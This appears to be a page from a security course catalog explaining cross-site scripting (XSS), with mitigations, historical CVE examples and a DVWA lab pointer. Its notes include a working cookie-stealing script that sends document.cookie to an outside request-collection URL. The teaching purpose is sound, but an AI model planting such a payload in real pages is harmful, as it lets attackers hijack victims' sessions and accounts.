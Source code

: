 ```yaml
---
layout: catalog
title: Cross-Site Scripting (XSS)
---
```


Cross-Site Scripting (XSS)
=========================

Description
-----------

See [CWE-79](http://cwe.mitre.org/data/definitions/79.html)

Mitigations
-----------

* Sanitization is your best option here. Converting HTML characters to their escaped form (e.g. &lt; to &amp;lt;) is a bare minimum. Only allowing some input is a good idea, but sometimes you want certain characters to be allowed and escaping allows for that flexibility.
* _However!_ Knowing which characters to escape is very tricky. I strongly recommend using an external library, and not just rolling your own. Check out how complicated it is at [OWASP's XSS Cheat Sheet](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet).

Historical Examples
-------------------
* A good discussion of XSS, including some fascinating historical exploits, is on the [Ruby on Rails security page](http://guides.rubyonrails.org/security.html#cross-site-scripting-xss).
* Be sure to test your XSS mitigations, as they can easily become ineffective, as what happened in Apache Tomcat in [CVE-2009-0781](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-0781). See their subtle [fix](http://svn.apache.org/viewvc?view=revision&revision=750928).
 
Notes
-----

* Widely considered among the most dangerous vulnerabilities today. XSS vulnerabilities have affected GMail, Twitter, Facebook, Hotmail, Yahoo Mail, and just about every other major web application out there.
* Note that XSS does not always have to be done inside &lt;script&gt; tags, it can be done in CSS injection, inside image metadata, and in many other situations.
* Executing Javascript on another person's machine can result in a vast number of exploits. In every case, the asset of cross-site scripting is the user interface. The two main exploits of XSS are:
 * _web defacement_, where you can modify the page to have an extra form asking for someone's password, which gets sent off to a remote site. A user would not be able to tell that they just sent their password to a malicious site.
 * _session hijacking:_ where you steal the authentication token from the victim's cookie and use it to log in. For example:

 {% highlight html %}
  <script>
  x = new XMLHttpRequest();
  x.open("GET", "http://requestb.in/13x2ec31?s=" + document.cookie, true);
  x.send();
  </script>
 {% endhighlight %}

  The above snippet is a silent AJAX call to a remote site, which an attacker then monitors anonymously, stealing your authentication token. Having the authentication token gives the attacker the ability to log in as the victim (as long as they stay logged in). From there, the attacker can can reset passwords, set up other accounts, set up permanent scripts, anything.
  
Running the Demo
----------------
For this one you will need an installation of [DVWA](http://www.dvwa.co.uk/), which your instructor can provide for you.

